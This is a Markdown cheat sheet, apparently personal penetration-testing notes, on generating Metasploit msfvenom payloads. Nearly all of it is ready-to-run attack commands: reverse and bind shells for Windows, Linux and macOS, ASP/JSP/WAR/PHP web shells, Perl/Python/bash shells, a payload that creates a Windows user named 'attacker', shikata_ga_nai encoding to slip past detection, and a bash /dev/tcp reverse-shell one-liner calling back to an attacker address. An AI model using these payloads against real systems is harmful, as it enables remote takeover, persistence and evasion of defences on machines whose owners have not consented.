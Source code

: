 ## Payloads
To list  payloads used with msfvenom you can use the following command:

	msfvenom --list payloads

The primary payload you will be using is the: \<os>/meterpreter/reverse_tcp

##### Formats
You can get a list of formats by typing:

	msfvenom --list formats

Make sure you grep what you are looking for or this could be a really long list.

To create the exploit file type:
	
	msfvenom -p <payload> LHOST=<My_IP_Address> LPORT=<Listening_Port> -f <format>

##### Post Session Creations
You can CTRL+z to background the session

	use post/multi/recon/local_exploit_suggester 
	set SESSION 1
	run
	
## Bind Shells

##### Windows
Windows bind shell 

	msfvenom -p windows/meterpreter/bind_tcp RHOST= (IP Address) LPORT=(Your Port) -f exe > bind.exe

##### Linux
Linux Bind Shall

	msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf

##### MacOS
MacOS Bind Shell

	msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
	
## Other Interesting Items
##### Windows
Create a windows user

	msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

Open cmd.exe prompt

	msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe

Encode your command

	msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

One can also use the -a to specify the architecture or the --platform
	
## Reverse Shells

All reverse shells require that you set up a listener within msfconsole the instructions are as follows. Note you dont set up the listnerer until you have built your msfvenom package. 

##### Metasploit Handler

	use exploit/multi/handler
 	set PAYLOAD <Payload name>
 	Set RHOST <Remote IP>
 	set LHOST <Local IP>
	 set LPORT <Local Port>


To create a windows reverse shell:

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

To create linux reverse shell:

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf >reverse.elf

If you are not using msfvenom but you have command access you can run:

	bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'

To create a MacOS reverse shell:

	msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho

## Scripting Languages

Perl Reverse Shall

	msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl

Python reverse shell:

	msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py

Bash Reverse Shell:

	msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

## Web Based

to create an ASP reverse shell:

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp

To create a JSP reverse shell:

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp

To create a WAR Reverse shell:

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war

To create a PHP reverse shell

	msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
	
Return to [[README]]